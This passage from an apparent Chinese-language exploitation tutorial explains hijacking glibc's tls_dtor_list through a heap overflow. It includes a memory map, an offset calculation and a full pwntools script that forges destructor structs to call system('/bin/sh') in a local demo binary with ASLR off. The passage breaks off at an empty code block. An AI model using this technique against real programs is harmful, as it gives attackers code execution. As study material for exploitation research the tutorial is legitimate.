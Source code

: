 ```shell
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/lib/x86_64-linux-gnu/ld-2.19.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/lib/x86_64-linux-gnu/ld-2.19.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
```
哈哈，glibc把堆块分配到了线程局部存储所在的页之前了。我们计算一下tls_dtor_list指针离堆块尾有多远。
```
0x7ffff7fdf6f0 - (0x7ffff7ede010 + 0x100000) = 0x16E0
```
还好距离不是很远...这样就好办了，如果有堆溢出的话，那我们通过覆盖tls_dtor_list指针和伪造一批dtor_list结构体，我们几乎可以干任何事情。

## Example
我就简单用上面的例子来得到一个shell。虽然平时不会有这种简单的情况，但是引申一下就行了：如果程序会给你一个malloc(len)的选项，(len由用户输入)，而且读入内容部分能造成堆溢出的话，就和这种情况差不多了。
因为主要是要找到tls_dtor_list的地址，而又因为ASLR的影响，其地址在不断变化。所以关键是bypass ASLR，一般方法就只能爆破了。但是只是演示作用，所以我就关了ASLR。

```python
from pwn import *

libc_base_addr = 0x7ffff7a15000
system_addr = libc_base_addr + 0x46590
puts_addr = libc_base_addr + 0x6fd60
binsh_addr = libc_base_addr + 0x17c8c3

p = process('./tls')

p.recvuntil("address: ")
r = p.recvuntil("\n")
mapped_addr = int(r, 16)
print "[*]mapped_addr: " + hex(mapped_addr)

# let's make fake two tls_dtor, one for printing a message--puts('/bin/sh')
# the other for execute system('/bin/sh')
# fake tls_dtor1
payload = p64(0) + p64(0x31) + p64(puts_addr) + p64(binsh_addr) + p64(mapped_addr + 0x100) + p64(mapped_addr + 0x40)

# fake tls_dtor2
payload += p64(0) + p64(0x31) + p64(system_addr) + p64(binsh_addr) + p64(mapped_addr + 0x100) + p64(0)

payload += 'a' * (0x100000 - 0x60 + 0x16E0) + p64(mapped_addr + 0x10)

#raw_input("go?")
p.sendline(payload)

print "pwning...."
print "Got a shell!"
sleep(1)
p.interactive() 
```
我特地构造了两个tls_dtor结构体是觉得因为仅仅构造一个的话中间有些问题可能不会碰到，碰到问题时又得去研究一番。所以就构造多个更能体现这种利用方法的可行性。
好吧，需要注意一个问题。当你仅仅分配一个huge chunk时，main_arena.system_mem等于0。
```shell
gdb-peda$ p main_arena.system_mem 
$1 = 0x0
```
所以当你执行完第一个tls_dtor里面的函数时，会碰到下面的问题：
```shell
*** Error in `./tls': free(): invalid next size (fast): 0x00007ffff7ede020 ***
```
因为__call_tls_dtor函数最后又free(cur)，而free时又会有以下检查：
```c
```